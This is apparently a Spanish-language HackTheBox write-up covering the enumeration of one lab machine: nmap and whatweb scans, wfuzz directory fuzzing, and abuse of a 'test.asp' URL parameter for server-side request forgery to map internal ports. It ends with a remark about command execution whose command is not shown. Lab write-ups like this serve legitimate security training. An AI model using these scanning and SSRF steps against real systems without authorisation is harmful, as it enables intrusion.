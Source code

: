 ## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.57
```
ttl: 127 -> maquina Windows. 
Recuerda que en cuanto a ttl respecta 64 = linux y 128 = windows. 
Pero como estamos en hackthebox hay un nodo intermediario que hace que el ttl disminuya una unidad

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.57 
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.57 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p62696 10.10.10.57 -oN targeted
```

| Puerto | Servicio   | Que se nos occure? | Que falta? |
| ------ | ---------- | ------------------ | ---------- |
| 62696  | http - IIS | Web, fuzzing, .asp |            |


### Analizando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.57:62696
```

Nada muy interesante

#### http-enum {-}

Lanzamos un web scan con nmap.

```bash
nmap --script http-enum -p62696 10.10.10.57 -oN webScan
```

No nos detecta nada

#### Chequear la web por puerto 62696 {-}

Con firefox navegamos en la web para ver lo que es.

La pagina esta under construction y poco mas.


#### Fuzzing con WFuzz {-}

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.57:62696/FUZZ
```

Encontramos un ruta `/backend` pero no se ve nada en firefox. Decidimos fuzzear con la extension `.asp`

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.57:62696/FUZZ.asp
```

Aqui encontramos un fichero `test.asp` y navigando no dice que no encuentra el parametro `u` que tendria que ser un URL.
Intentamos ver si se conecta a nuestro servidor web

1. Creamos un servidor web

    ```bash
    python3 -m http.server 80
    ```

1. Intentamos conectar por la web 

    ```bash
    http://10.10.10.57:62696/test.asp?u=http://10.10.14.8
    http://10.10.10.57:62696/test.asp?u=http://10.10.14.8/test
    ```

Aqui no pasa nada. La idea aqui, como solo tiene un puerto abierto seria de explorar si tiene puerto privados usando localhost

```bash
http://10.10.10.57:62696/test.asp?u=http://localhost
```

Aqui ya vemos que el puerto 80 interno de la maquina esta abierto. Decidimos descubrir los puertos abiertos de la maquina con WFUZZ


### Descubrimiento de los puertos abiertos con WFUZZ {-}

Wfuzz permite hacer rangos de numeros con el parametro `-z`

```bash
wfuzz -c -t 200 --hc=404 -z range,1-65535 http://10.10.10.57:62696/test.asp?u=http://localhost:FUZZ
```

Como nunca va a existir un codigo de estado 404, (porque el recurso existe), wfuzz no va a reportar como validas todas
las requests. Hay que lanzar una vez y occultar las palabra que son de 89

```bash
wfuzz -c -t 200 --hc=404 --hw=89 -z range,1-65535 http://10.10.10.57:62696/test.asp?u=http://localhost:FUZZ
```

Aqui vemos que solo el puerto 80 esta abierto.



Esto funciona. Pero no vemos en la web el output del comando. Solo vemos el codigo de estado (0 si el comando a funcionado, 1 si no a funcionado)

